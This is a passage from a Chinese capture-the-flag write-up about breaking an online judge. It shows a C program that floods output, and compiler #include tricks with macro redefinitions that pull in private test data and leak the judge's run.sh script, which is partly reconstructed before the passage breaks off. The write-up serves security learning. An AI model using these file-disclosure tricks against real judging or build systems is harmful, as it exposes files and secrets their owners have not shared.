 但是，这样并不会导致判题脚本故障。显然，没有写入权限。

#### Output limit exceeded

通过致死量的输出弄爆缓冲区，会怎么样？

```cpp
#include<stdio.h>

int main() {
    while(1) {
        printf("1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111");
    }
}
```

这样会得到一行奇怪的信息，但是没有 flag。

```plain
./run.sh: line 15:    17 Killed                  gosu judger /bin/bash -c "exec
-a \"Wow! You are reading cmdline of proc! But no flag here, try something else!
^_^\" /usr/local/bin/python ./checker.py"
```

#### 通过 `#include` 读取数据

注意到编译器没有通过 `su` 限制权限。这样可以读到动态数据内容。

```cpp
#include "../data/dynamic1.out"
```

但是似乎无法避免编译器处理此文件时报错，更无法将内容有效地插入到程序中。

#### 通过 `#include` 读取执行脚本

```cpp
#define judger ;. // 宏定义使得在特定位置报错
#define shm ;.
#define cat ;.
#define mv ;.
#define cp ;.
#define rm ;.
#define checker ;.
#define flag1 ;.
#define flag2 ;.
#define chmod ;.
#define chown ;.
#include "../run.sh"
```

可以还原出这样的脚本：

```bash
#!/bin/bash
cat /root/flag1 > /dev/shm/flag1
chown judger:judger /dev/shm/flag1
chmod 700 /dev/shm/flag1

cat /root/flag2 > /dev/shm/flag2
chown judger:judger /dev/shm/flag2
chmod 700 /dev/shm/flag2

cp -r /judger /dev/shm/judger
chown -R judger:judger /dev/shm/judger
chmod 777 /dev/shm/judger/temp
cd /dev/shm/judger
gosu judger /bin/bash -c "exec -a \"Wow! You are reading cmdline of proc! \
```